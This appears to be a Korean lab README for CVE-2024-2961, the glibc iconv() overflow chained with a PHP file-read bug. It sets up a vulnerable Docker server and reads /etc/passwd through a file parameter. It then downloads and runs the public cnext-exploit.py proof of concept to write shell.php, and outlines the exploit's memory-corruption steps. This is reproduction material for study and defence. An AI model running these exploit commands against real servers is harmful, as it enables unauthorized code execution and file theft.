

# 📌 CVE-2024-2961: PHP 파일 읽기를 통한 원격 코드 실행 취약점 (GNU C Library Iconv) 🛡️
**CVE-2024-2961**은 **PHP 애플리케이션**에서 **원격 코드 실행**(RCE)을 가능하게 하는 취약점이다.  
이 취약점은 **GNU C 라이브러리**(glibc)의 **iconv() 함수**에서 발생하며, 그로 인해 **버퍼 오버플로우**와 **원격 코드 실행**(RCE) 공격이 가능하다.  
  
<br>

## 📚 Table of Contents
- [취약점 개요 (Vulnerability Overview) 🛡️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EA%B0%9C%EC%9A%94-vulnearability-overview)
- [취약점 영향 (Impact) ⚠️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EC%98%81%ED%96%A5-impact)
- [취약한 환경 설정 (Vulnerable Environment) ⚙️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%ED%95%9C-%ED%99%98%EA%B2%BD-%EC%84%A4%EC%A0%95-vulnerable-environment)
- [취약점 악용 (Exploit) 👾](#-취약점-악용-exploit)
- [PoC 코드 개요 (PoC Summary) 💻](#-poc-%EC%BD%94%EB%93%9C-%EA%B0%9C%EC%9A%94poc-summary)
- [취약점 악용 흐름도 (Exploit Flow Diagram) ⏳](#-취약점-악용-흐름도-exploit-flow-diagram)

<br>

## 🛡️ 취약점 개요 (Vulnearability Overview)
**GNU C 라이브러리**(glibc)는 호환성, 이식성, 높은 성능을 자랑하는 ISO C 라이브러리이다.  
**CVE-2024-2961**은 GNU C 라이브러리 **2.39 이하** 버전에서 발생하는 취약점으로, `iconv()` 함수에서 발생한다.  
특히, 문자열을 **ISO-2022-CN-EXT** 문자 집합으로 변환할 때, 출력 버퍼가 최대 **4바이트까지 오버플로우**되어 애플리케이션 충돌을 일으키거나 변수를 덮어쓸 수 있다.  
이 취약점은 **PHP 애플리케이션의 파일 읽기 취약점**과 결합되면서, 공격자가 **원격 코드 실행**(RCE) 공격을 수행할 수 있게 만든다.  

**참고문헌:**
- https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

<br>

## ⚠️ 취약점 영향 (Impact)
- **버퍼 오버플로우**: 오버플로우로 인해 애플리케이션 충돌이나 메모리 손상이 발생할 수 있다.
- **원격 코드 실행**: 이 취약점을 악용하면 공격자가 원격에서 임의의 코드를 실행할 수 있다.

<br>

## ⚙️ 취약한 환경 설정 (Vulnerable Environment)
다음 명령어를 실행하여 **PHP 8.3.4** 서버와 **iconv 2.36** 버전이 포함된 환경을 시작한다:
   ```bash
   docker compose up -d
   ```
   서버가 시작되면, 브라우저에서 http://localhost:8080/index.php?file=/etc/passwd를 통해 /etc/passwd 파일을 읽을 수 있다.  

<br>

## 👾 취약점 악용 (Exploit)
1. 취약점을 악용하려면, Linux 기반 시스템과 **Python 3.10** 이상이 필요하다.
2. 필요한 종속성을 설치한다:
   ```bash
   pip install pwntools
   pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
   ```
3. PoC를 다운로드하고 실행한다:

   ```bash
   wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
   python cnext-exploit.py http://localhost:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```

   ❗주의: 만약 `localhost`가 작동하지 않는다면, 대신 자신의 IP 주소를 사용해야 한다.
   
   💡참고: 자신의 IP 주소는 `ipconfig` 명령어를 사용하여 확인할 수 있다.

     - Linux 환경에서는 `eth0` 인터페이스에서 IP를 확인할 수 있다.
       
   예를 들어, 자신의 IP 주소가 `192.168.1.100`이라면 아래와 같이 입력한다:
   ```bash
   python cnext-exploit.py http://192.168.1.100:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```
   `your-ip`는 `ipconfig` 명령어를 통해 확인한 실제 IP 주소로 바꿔야 한다.

   
    이처럼 shell.php가 성공적으로 작성된다.
   
4. 브라우저에서 `shell.php`를 확인한다.
   ```bash
   http://localhost:8080/shell.php
   ```
   
   위와 같이 `shell.php`가 잘 실행된다.

<br>

## 💻 PoC 코드 개요(PoC Summary)
`cnext-exploit.py`는 대상 서버의 **파일 읽기 취약점**을 이용하여, **glibc iconv 버그**를 트리거하고 **원격 코드 실행(RCE)**을 달성하는 익스플로잇 스크립트이다.

- 서버가 지원하는 PHP 스트림(wrapper) 기능 (`php://filter', 'zlib.inflate' 등)을 이용하여 서버 메모리를 조작한다.
- `/proc/self/maps` 파일을 통해 PHP 프로세스의 메모리 레이아웃(libc, 힙 주소 등)을 수집한다.
- `iconv()` 함수의 버퍼 오버플로우 취약점을 이용하여 메모리 구조를 덮어쓰고, 시스템 명령어 실행이 가능하도록 한다.
- 최종적으로 서버에 원하는 PHP 파일(`shell.php`)을 생성하여, 원격에서 명령어를 실행할 수 있다.

<br>

## ⏳ 취약점 악용 흐름도 (Exploit Flow Diagram)
```text
1. 환경 구성(PHP 8.34 + iconv 2.36)
2. /etc/passwd 파일 읽기 확인
3. PoC 스크립트 실행 (cnext-exploit.py)
4. shell.php 파일 생성
5. shell.php 접속 및 명령어 실행
6. 원격 코드 실행(RCE) 성공
```
